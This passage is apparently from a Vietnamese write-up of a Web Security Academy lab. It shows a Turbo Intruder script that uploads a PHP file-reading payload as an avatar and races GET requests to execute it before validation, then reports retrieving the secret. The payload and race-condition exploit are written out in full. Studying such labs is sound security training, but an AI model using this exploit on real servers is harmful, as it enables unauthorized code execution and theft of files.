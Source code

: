 ```python
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------330791307811450659691420606466
Content-Disposition: form-data; name="avatar"; filename="exp.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------330791307811450659691420606466
Content-Disposition: form-data; name="user"

wiener
-----------------------------330791307811450659691420606466
Content-Disposition: form-data; name="csrf"

MnAk4pu8ffIIMhtrA7QplX4snjgTUy1R
-----------------------------330791307811450659691420606466--

'''
    #request2 is my GET request to that php file
    request2 = '''
GET /files/avatars/exp.php HTTP/1.1
Host: 0a0200a5048c2b2cc2d111ae00c600d2.web-security-academy.net
Cookie: session=AWH7DY2FXuyfcjTPBuMZ4cdUzG0wcPQB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

'''

    #add request1 and five request2 to queue
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # start to exploit by execute queue of requests
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
Kết quả ta thu được các GET request với status code 200, tức nó có thể thành công thực thi file php và trả về kết quả cho ta trong thời gian server đang xử lý file. Có được secret
>![](https://i.imgur.com/ZhNAXoa.png)
